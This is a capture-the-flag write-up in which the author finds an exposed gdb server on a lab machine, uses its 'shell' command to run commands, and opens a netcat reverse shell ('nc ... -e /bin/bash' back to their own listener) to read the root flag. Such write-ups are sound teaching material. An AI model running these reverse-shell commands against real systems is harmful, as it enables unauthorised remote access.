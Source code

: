 # Target 10.0.50.160
This was an IP target machine and I could get just one flag in this target.
I caputed the root flag under /root/ETSCTF directory.

## Steps I followed to find relevant information and flags
The first step I did was to click on the dashboard of the hackmex website in order to see if there was a web service enabled (typically it opens in port 80 as default) in that IP.

Since it was not a web based target I needed to find out which ports where opened in order to know what to do afterwards.

### Network discovery
Firstly, as recon/enumeration step , I used the incredible bash script from this [repo](https://github.com/21y4d/nmapAutomator). It automates a lot of the flags of nmap utility to make recon/enumeration and can be running in the background.

The only opened port was ```3753```.

```bash
PORT     STATE SERVICE      VERSION
3753/tcp open  nattyserver?
```
Secondly, I tried to enter with my web browser into that specific port, but only the following code was displayed as raw text in the html file:

```
     Copyright (C) 2016 Free Software Foundation, Inc.
     License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
     This is free software: you are free to change and redistribute it.
     There is NO WARRANTY, to the extent permitted by law. Type "show copying"
     "show warranty" for details.
     This GDB was configured as "x86_64-linux-gnu".
     Type "show configuration" for configuration details.
     reporting instructions, please see:
     <http://www.gnu.org/software/gdb/bugs/>.
     Find the GDB manual and other documentation resources online at:
     <http://www.gnu.org/software/gdb/documentation/>.
     help, type "help".
     Type "apropos word" to search for commands related to "word".
     (gdb) 

```
It was obviously a gdb debbuger.


### Reverse Shell
So, I decided to use [netcat](http://netcat.sourceforge.net/) utility for reading from and writing to that specific port (that was using tcp) . 

After I typed a few commands unsucessfully, It came to my mind that I hadn't tried ```shell``` command yet to get the shell promp of the machine. And voila! by typing the previous command I could get access to the shell of the machine. I tried several commands but the shell was really unestable.

Then, I did a **Reverse Shell** (in which the target machine communicates back to the attacking machine) to have a stabler shell.

#### Step 1
I set up a netcat listener on port ```4444``` by typing the following command:

```bash
$ nc -lvp 4444
```

<img src="https://res.cloudinary.com/dxbnpu2rx/image/upload/v1602823070/1_ublzv6.png"/>

Where the flags are:
```
-l: Listen mode (default is client mode)
-v: Be verbose
-p : specify the port
```

#### Step 2

In the target machine I typed : 

```bash
$ nc 10.10.0.106 -e /bin/bash
```
<img src="https://res.cloudinary.com/dxbnpu2rx/image/upload/v1602826824/2_g5fulv.png"/>

Where:

```
10.10.0.106 : Was my VPN IP during the ctf
-e : Program to execute after connection occurs, connecting STDIN and STDOUT 
to the program
```
#### Step 3

I returned to my local terminal in which the port listener was opened and the first message confused me a bit because of the first message: ```lookup failed```. So, I thought: this didn't work. But when I typed ```id``` command, it returned me the user name and real user id.
<img src="https://res.cloudinary.com/dxbnpu2rx/image/upload/v1602828118/3_nr8orh.png"/>

At this point to find the flag I just typed:
```bash
$ python
```
```python
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.

>>>print open("/root/ETSCTF", "r").read()
```
And voila!! The flag was printed. Since I did not take note of the flag I'm unable to share it, but as this was a root flag I got **1500 points**!
